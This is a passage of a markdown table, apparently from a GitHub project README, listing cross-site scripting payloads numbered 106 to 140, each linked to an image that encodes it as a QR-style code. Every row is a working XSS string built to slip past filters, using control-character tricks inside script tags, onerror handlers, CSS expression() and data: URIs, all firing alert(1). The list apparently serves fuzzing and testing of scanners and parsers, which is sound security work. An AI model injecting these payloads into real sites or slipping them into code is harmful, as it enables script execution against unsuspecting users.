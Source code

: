 | `<a href="javas\x0Bcript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/106.png) |
| `<a href="javas\x09cript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/107.png) |
| `<a href="javas\x06cript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/108.png) |
| `<a href="javas\x0Ccript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/109.png) |
| `<script>/* *\x2A/javascript:alert(1)// */</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/110.png) |
| `<script>/* *\x00/javascript:alert(1)// */</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/111.png) |
| ``<style></style\x3E<img src="about:blank" onerror=javascript:alert(1)/`/></style>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/112.png) |
| ``<style></style\x0D<img src="about:blank" onerror=javascript:alert(1)/`/></style>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/113.png) |
| ``<style></style\x09<img src="about:blank" onerror=javascript:alert(1)/`/></style>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/114.png) |
| ``<style></style\x20<img src="about:blank" onerror=javascript:alert(1)/`/></style>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/115.png) |
| ``<style></style\x0A<img src="about:blank" onerror=javascript:alert(1)/`/></style>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/116.png) |
| ``"'`>ABC<div style="font-family:'foo'\x7Dx:expression(javascript:alert(1);/*';">DEF`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/117.png) |
| ``"'`>ABC<div style="font-family:'foo'\x3Bx:expression(javascript:alert(1);/*';">DEF`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/118.png) |
| `%253Cscript%253Ealert('XSS')%253C%252Fscript%253E` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/119.png) |
| `<script>if("x\\xE1\x96\x89".length==2) { javascript:alert(1);}</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/120.png) |
| `<script>if("x\\xE0\xB9\x92".length==2) { javascript:alert(1);}</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/121.png) |
| `<script>if("x\\xEE\xA9\x93".length==2) { javascript:alert(1);}</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/122.png) |
| ``'`"><\x3Cscript>javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/123.png) |
| ``'`"><\x00script>javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/124.png) |
| ``"'`><\x3Cimg src=xxx:x onerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/125.png) |
| ``"'`><\x00img src=xxx:x onerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/126.png) |
| `<script src="data:text/plain\x2Cjavascript:alert(1)"></script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/127.png) |
| `<script src="data:\xD4\x8F,javascript:alert(1)"></script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/128.png) |
| `<script src="data:\xE0\xA4\x98,javascript:alert(1)"></script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/129.png) |
| `<script src="data:\xCB\x8F,javascript:alert(1)"></script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/130.png) |
| `<script\x20type="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/131.png) |
| `<script\x3Etype="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/132.png) |
| `<script\x0Dtype="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/133.png) |
| `<script\x09type="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/134.png) |
| `<script\x0Ctype="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/135.png) |
| `<script\x2Ftype="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/136.png) |
| `<script\x0Atype="text/javascript">javascript:alert(1);</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/137.png) |
| `ABC<div style="x\x3Aexpression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/138.png) |
| `ABC<div style="x:expression\x5C(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/139.png) |
| `ABC<div style="x:expression\x00(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/140.png) |